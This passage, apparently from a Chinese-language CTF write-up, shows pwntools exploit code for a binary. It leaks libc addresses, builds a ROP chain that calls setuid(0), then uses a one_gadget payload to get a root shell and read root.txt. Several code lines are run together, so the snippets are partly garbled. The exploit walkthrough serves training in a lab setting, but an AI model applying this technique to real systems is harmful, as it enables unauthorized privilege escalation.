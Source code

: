 ```
setuid = p64(offset + libc_setuid)
```

所以阶段 2 看起来像这样，我首先设置 setuid:

```
#Stage 2
pop_rdi = p64(0x40179b)
libc_put = 0x0809c0
libc_sys = 0x04f440
libc_sh =  0x1b3e9a
libc_setuid = 0x0e5970offset = leak_puts - libc_put
sys = p64(offset + libc_sys)
sh = p64(offset + libc_sh)
setuid = p64(offset + libc_setuid)payload = junk + pop_rdi + p64(0x0) + setuid + plt_main
p.sendline(payload)
```

## exploit.py(第 3 部分)

我现在添加可以获得 shell 的部分，因为我已经调用了 setuid 部分。我使用工具 one [one_gadget](https://github.com/david942j/one_gadget) 找到/bin/sh 的地址。

![](img/ee751bc69d21ebde6065dc60d0000b2f.png)

```
#Stage 3
log.success("Elevate privilege success")
log.success("Check if you have a shell!")payload = junk + one_gadget
p.sendline(payload)
p.interactive()
```

当我运行漏洞时，我获得了 root 访问权限，现在可以读取 root.txt:
